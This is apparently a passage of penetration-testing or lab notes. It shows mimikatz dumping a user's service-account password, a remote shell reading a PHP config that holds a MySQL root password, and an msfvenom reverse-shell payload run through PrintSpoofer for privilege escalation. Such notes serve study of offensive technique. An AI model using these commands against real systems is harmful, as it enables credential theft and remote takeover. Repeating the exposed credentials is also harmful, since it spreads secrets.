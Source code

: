 * Password : 2a 0d 35 f2 d7 58 85 c0 09 ee db a5 3c a0 a2 9e d9 93 f6 22 a9 53 7c ea b1 12 cb 0f 4e 84 9d 45 fd 70 c5 26 12 ec 2d 17 13 30 c3 b7 71 e9 fe a0 db db f2 d6 d4 2b 8d cd 32 f2 b8 91 b8 34 1c 17 07 f2 9a 57 4d 22 5e b4 7e 6e e6 d2 0b 42 40 03 59 ac 04 8d 9a 96 94 50 94 d3 61 7e dd b8 e0 a1 54 3c 4a 8e 99 44 47 13 d5 98 78 8f 3b 90 da 91 f3 f0 a3 c7 e4 70 79 d9 3c 35 4b 89 df 3c da cf 94 fb 06 c7 65 3c 98 2b bf cd f2 fc 9c 4d 64 c1 a4 24 47 5f 07 56 ce 53 9e b0 e7 a8 f8 f3 bb 09 14 c1 df 74 3f 6f 8f 92 5a 0b 5d d0 27 fb 80 06 1c 1a e2 26 a9 db 21 9c 98 56 5a 00 94 1c 4b b3 39 90 b2 0f 34 bb 88 45 0f 4e bc 5b c0 74 5a 05 99 e0 48 91 fc 7e 9b 21 90 45 43 02 d0 36 eb e0 f2 dd 76 6e 61 d4 3e 9a 98 a4 b7 32 12 57 4f 4f  
ssp :  
credman :  
cloudap :

  

mimikatz #

Secret : _SC_wampapache64 / service 'wampapache64' with username : .\Mary.Williams  
cur/text: 69jHwjGN2bPQFvJ

Secret : _SC_wampmariadb64 / service 'wampmariadb64' with username : .\Mary.Williams  
cur/text: 69jHwjGN2bPQFvJ

Secret : _SC_wampmysqld64 / service 'wampmysqld64' with username : .\Mary.Williams  
cur/text: 69jHwjGN2bPQFvJ

  

  

RCE > type C:\wamp64\attendance\admin\includes\conn.php  
<?php  
$conn = new mysqli('localhost', 'root', 'TreeFlaskDomestic505', 'apsystem');

```Plain
    if ($conn->connect_error) {
        die("Connection failed: " . $conn->connect_error);
    }
```

?>  
RCE >

**WAMP64** refers to a **Windows**-based software stack that stands for **Windows, Apache, MySQL, PHP** (WAMP). It's a package that bundles Apache (a web server), MySQL (a database), and PHP (a server-side scripting language) together, allowing you to set up a web development environment on a **64-bit** Windows machine.

  

  

```SQL
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<your-ip> LPORT=<your-port> -f exe -o reverse3.exe
PrintSpoofer64.exe -i -c reverse3.exe
-i: Runs the command in interactive mode.
-c reverse3.exe: Specifies reverse3.exe as the command to run with elevated privileges.
```